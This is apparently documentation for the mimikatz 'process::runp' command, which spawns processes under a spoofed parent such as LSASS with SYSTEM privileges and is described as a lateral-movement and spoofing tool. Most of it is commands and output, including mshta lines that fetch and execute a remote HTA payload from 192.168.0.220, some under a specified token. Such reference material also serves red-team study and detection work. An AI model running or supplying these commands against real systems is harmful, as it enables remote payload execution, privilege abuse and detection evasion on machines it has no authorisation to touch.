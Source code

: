 # runp

`process::runp` runs a subprocess under a parent process (Default parent process is `LSASS.exe`). It can also be used for lateral movement and process spoofing. It has the following command line arguments:

* `/run`: the name of the process
* `/ppid`: the parent process ID
* `/token`: The specified token privileges to run the new process. It can be found with `token::list`

```
mimikatz # privilege::debug
Privilege '20' OK
```

```
mimikatz # process::runp /run:notepad.exe
[pid] no argument, default for LSASS
Run : notepad.exe
PPID: 712 <---------------- This is the pid of LSASS.exe
PID: 728 - TID: 2916
{0;000003e7} 1 D 22529734       NT AUTHORITY\SYSTEM     S-1-5-18        (04g,31p)       Primary
```

#### Run under a specified process

```
mimikatz # process::runp /run:notepad.exe /ppid:6388
Run : notepad.exe
PPID: 6388
PID: 7360 - TID: 8488
{0;000003e7} 1 D 23539338       NT AUTHORITY\SYSTEM     S-1-5-18        (11g,08p)       Primary
```

#### mshta payload execution example

```
mimikatz # process::runp /run:"mshta http://192.168.0.220:80/delivery.hta" /ppid:2948
Run : mshta http://192.168.0.220:80/delivery.hta
PPID: 2948
PID: 7928 - TID: 1300
{0;000003e7} 1 D 25077110       NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary
```

#### mshta payload execution under a specified token

```
mimikatz # process::runp /run:"mshta http://192.168.0.220:80/delivery.hta" /ppid:2948 /token:1
Run : mshta http://192.168.0.220:80/delivery.hta
PPID: 2948
PID: 7980 - TID: 9060
{0;000003e7} 1 D 25970276       NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary
   G:[ DEO   ] BUILTIN\Administrators
   G:[MDE    ] Everyone
   G:[MDE    ] NT AUTHORITY\Authenticated Users
   G:[       ] Mandatory Label\System Mandatory Level
   P:[    ]    SeAssignPrimaryTokenPrivilege
   P:[    ]    SeIncreaseQuotaPrivilege
   P:[DE  ]    SeTcbPrivilege
   P:[    ]    SeSecurityPrivilege
   P:[    ]    SeTakeOwnershipPrivilege
   P:[    ]    SeLoadDriverPrivilege
   P:[DE  ]    SeProfileSingleProcessPrivilege
   P:[DE  ]    SeIncreaseBasePriorityPrivilege
   P:[DE  ]    SeCreatePermanentPrivilege
   P:[    ]    SeBackupPrivilege
   P:[    ]    SeRestorePrivilege
   P:[    ]    SeShutdownPrivilege
   P:[DE  ]    SeDebugPrivilege
   P:[DE  ]    SeAuditPrivilege
   P:[    ]    SeSystemEnvironmentPrivilege
   P:[DE  ]    SeChangeNotifyPrivilege
   P:[    ]    SeUndockPrivilege
   P:[    ]    SeManageVolumePrivilege
   P:[DE  ]    SeImpersonatePrivilege
   P:[DE  ]    SeCreateGlobalPrivilege
   P:[    ]    SeTrustedCredManAccessPrivilege
```
